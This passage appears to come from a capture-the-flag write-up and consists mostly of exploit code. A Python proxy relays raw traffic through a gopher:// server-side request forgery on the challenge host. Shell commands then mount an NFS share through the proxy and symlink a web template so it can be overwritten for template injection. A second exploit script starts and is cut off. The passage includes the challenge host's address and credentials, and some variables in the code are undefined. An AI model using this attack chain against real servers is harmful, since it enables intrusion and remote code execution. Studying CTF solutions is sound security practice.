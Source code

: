 ```python=
RHOST = '54.250.88.37'
RPORT = 39590
auth = ('ctf', 'e2a0ba1d0a4b40d4')

def serve_request(conn, key='TIMEOUT', value=2):
  # Lets just wait until we can assume all the data was sent
  time.sleep(.1)
  data = conn.recv(8192)
  payload = '_' + urllib.parse.quote(data)
  url = f"gopher://{URL}/{payload}xx"
  print('url:', url)
  key, value = KEY, VALUE

  res = requests.post(f"http://{RHOST}:{RPORT}/", data = {"url": url, f"CURLOPT_{key}": value}, auth=auth)
  soup = BeautifulSoup(res.text, 'html.parser')
  msg = soup.find(id='msg')
  if not msg.a:
    print('\033[91mError: ',msg.text.strip(), '\033[0m')
    return
  href = msg.a.get('href')
  print('\033[92mGET:', href, '\033[0m')
  res = requests.get(f"http://{RHOST}:{RPORT}/{href}", auth=auth)
  print('\033[92m',i, f'{len(res.content)}:',  res.content, '\033[0m')
  conn.send(res.content)
  return

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
  s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
  s.bind((HOST, PORT))
  s.listen()
  while True:
    conn, addr = s.accept()
    with conn:
      print('\033[92mConnected by', addr, '\033[0m')
      serve_request(conn)
      print('\033[93mDisconnected by', addr, '\033[0m')
```

Then mount nfs.server:/data to create a soft link
```bash=
$ python proxy.py 111 127.0.0.1:111 TIMEOUT 1
$ python proxy.py 2049 127.0.0.1:2049 LOCALPORT 888

$ sudo mount -t nfs 127.0.0.1:/data ./mnt -o nolock,vers=4 -v
$ sudo ln -s /app/templates/index.html mnt/c80de072846457372faf9609e6bfd79c.jpg
```

Finally overwrite index.html to SSTI
```python=
#!/usr/bin/env python3
import requests
from hashlib import md5
from urllib.parse import quote
import struct
s = requests.session()


host = 'http://54.250.88.37:39590/'
s.auth = ('ctf', 'e2a0ba1d0a4b40d4')


'''
```